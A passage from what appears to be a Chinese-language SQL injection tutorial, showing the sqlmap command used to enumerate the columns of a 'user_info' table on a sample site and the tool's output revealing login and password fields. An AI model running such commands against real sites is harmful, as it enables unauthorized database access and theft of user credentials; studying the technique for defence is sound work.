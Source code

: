 显而易见，我们的兴趣主要在表 user_info 中，因为这张表中包含着数据库的用户名和密码。

## 0x04 列出指定数据库中的列

* * *

现在我们需要列出数据库 sqldummywebsite 的表 user_info 中的所有的列，使用 SQLMAP 进行这一步会非常简单，运行下面的命令：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info --columns 
```

命令返回 5 个段:

```
[10:57:16] [INFO] fetching columns for table 'user_info' in database 'sqldummywebsite'
[10:57:18] [INFO] heuristics detected web page charset 'ISO-8859-2'
[10:57:18] [INFO] the SQL query used returns 5 entries
[10:57:20] [INFO] retrieved: user_id
[10:57:22] [INFO] retrieved: int(10) unsigned
[10:57:25] [INFO] retrieved: user_login
[10:57:27] [INFO] retrieved: varchar(45)
[10:57:32] [INFO] retrieved: user_password
[10:57:34] [INFO] retrieved: varchar(255)
[10:57:37] [INFO] retrieved: unique_id
[10:57:39] [INFO] retrieved: varchar(255)
[10:57:41] [INFO] retrieved: record_status
[10:57:43] [INFO] retrieved: tinyint(4) 
```

![2014052915004160941_png.jpg](img/img3_u27_jpg.jpg)
